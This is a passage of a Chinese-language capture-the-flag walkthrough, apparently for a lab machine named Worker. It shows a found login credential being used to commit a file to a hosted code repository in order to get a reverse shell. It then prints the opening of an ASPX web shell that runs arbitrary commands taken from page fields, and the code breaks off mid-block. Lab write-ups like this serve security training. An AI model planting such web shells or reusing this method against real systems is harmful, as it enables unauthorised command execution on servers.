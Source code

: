 ![]({{ site.url }}/assets/Worker_203.assets/2020-11-02-22-11-40.png)

![]({{ site.url }}/assets/Worker_203.assets/2020-11-02-22-12-26.png)

![]({{ site.url }}/assets/Worker_203.assets/2020-11-02-22-12-56.png)

![]({{ site.url }}/assets/Worker_203.assets/2020-11-02-22-13-28.png)

得到可能的凭证

`nathen:wendel98`

尝试在之前的web页面进行登陆

![]({{ site.url }}/assets/Worker_203.assets/2020-11-02-22-17-47.png)

登陆成功

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-19-58-09.png)

登陆成功后可在 smarthotel360中的repos下的pull requests中发现之前发现的各个网站，我们可以通过更新这些网页的代码，来将rshell传输上去，尝试获得revers shell

先选择想修改的项目，尝试修改alpha

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-20-23-18.png)

选择file

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-20-10-09.png)

再选择新建的分支

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-20-24-09.png)

再在文件目录处选择新增文件

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-20-14-32.png)

新增一个web_shell.aspx，写入代码，

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-20-15-27.png)

并点击commit进行存档

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-20-26-17.png)

或者在本地建立文件，然后使用上传功能进行上传

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-21-13-24.png)
```html
<%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">      
Sub RunCmd(Src As Object, E As EventArgs)            
  Dim myProcess As New Process()            
  Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)            
  myProcessStartInfo.UseShellExecute = false            
  myProcessStartInfo.RedirectStandardOutput = true            
  myProcess.StartInfo = myProcessStartInfo            
  myProcessStartInfo.Arguments=xcmd.text            
  myProcess.Start()            
  Dim myStreamReader As StreamReader = myProcess.StandardOutput            
  Dim myString As String = myStreamReader.Readtoend()            
  myProcess.Close()            
```